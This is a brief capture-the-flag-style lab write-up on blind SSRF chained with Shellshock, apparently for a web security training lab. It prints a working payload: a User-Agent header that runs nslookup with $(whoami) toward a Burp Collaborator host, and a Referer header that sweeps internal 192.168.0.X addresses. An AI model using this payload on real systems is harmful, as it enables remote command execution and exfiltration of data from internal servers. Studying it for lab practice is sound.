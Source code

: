 # Blind SSRF with Shellshock exploitation

## This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## To solve the lab, use this functionality to perform a [blind SSRF]attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

this lab is expert

---

### step 1

add to scope product page and reload
![screenshot](./images/lab7_issue.png)

89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com => this is burpsuite collaborator which is available in pro version
Shellshock exploit systems => () {:;}; /usr/bin/nslookup
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com
Referer: http://192.168.0.§X§:8080/

![screenshot](./images/lab7_payload.png)

![screenshot](./images/lab7_burp_collaborator.png)
